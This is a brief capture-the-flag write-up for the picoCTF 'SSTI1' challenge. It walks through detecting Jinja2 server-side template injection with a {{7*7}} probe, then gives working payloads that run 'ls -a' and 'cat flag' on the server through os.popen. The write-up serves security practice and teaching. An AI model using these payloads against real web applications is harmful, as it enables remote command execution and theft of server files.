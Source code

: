 # SSTI1
https://play.picoctf.org/practice/challenge/492

> I made a cool website where you can announce whatever you want! Try it out!

## Steps

1. Based on challenge name, try SSTI checks with the classic `{{ 7*7 }}` Jinja check, and it returns 49
![alt text](<images/Screenshot 2025-09-10 125204.png>)
![alt text](<images/Screenshot 2025-09-10 125211.png>)

2. Use payloads from https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/#jinja2-remote-command-execution to try remote code execution with `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -a').read() }}`
![alt text](<images/Screenshot 2025-09-10 125410.png>)
![alt text](<images/Screenshot 2025-09-10 125415.png>)

3. Read the flag file with `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`
![alt text](<images/Screenshot 2025-09-10 125423.png>)
![alt text](<images/Screenshot 2025-09-10 125431.png>)